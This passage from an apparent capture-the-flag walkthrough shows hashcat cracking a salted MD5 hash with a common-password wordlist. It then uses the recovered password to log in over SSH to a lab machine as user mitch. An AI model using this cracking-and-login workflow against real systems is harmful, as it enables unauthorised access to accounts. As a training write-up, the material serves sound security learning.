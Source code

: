     Watchdog: Hardware monitoring interface not found on your system.
    Watchdog: Temperature abort trigger disabled.

    Host memory required for this attack: 64 MB

    Dictionary cache built:
    * Filename..: /usr/share/seclists/Passwords/Common-Credentials/best110.txt
    * Passwords.: 110
    * Bytes.....: 849
    * Keyspace..: 110
    * Runtime...: 0 secs

    The wordlist or mask that you are using is too small.
    This means that hashcat cannot use the full parallel power of your device(s).
    Unless you supply more work, your cracking speed will drop.
    For tips on supplying more work, see: https://hashcat.net/faq/morework

    Approaching final keyspace - workload adjusted.  

    0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
                                                    
    Session..........: hashcat
    Status...........: Cracked
    Hash.Name........: md5($salt.$pass)
    Hash.Target......: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
    Time.Started.....: Sun Jun  6 22:14:13 2021 (0 secs)
    Time.Estimated...: Sun Jun  6 22:14:13 2021 (0 secs)
    Guess.Base.......: File (/usr/share/seclists/Passwords/Common-Credentials/best110.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:   474.2 kH/s (0.03ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
    Recovered........: 1/1 (100.00%) Digests
    Progress.........: 110/110 (100.00%)
    Rejected.........: 0/110 (0.00%)
    Restore.Point....: 0/110 (0.00%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidates.#1....: 000000 -> zxczxc

    Started: Sun Jun  6 22:13:43 2021
    Stopped: Sun Jun  6 22:14:15 2021
    ```
    
---

### Where can you login with the details obtained?
- **Answer:** ssh
- **Steps to Reproduce:** 

```bash
$ ssh mitch@10.10.129.112 -p 2222
The authenticity of host '[10.10.129.112]:2222 ([10.10.129.112]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.129.112]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.129.112's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch

```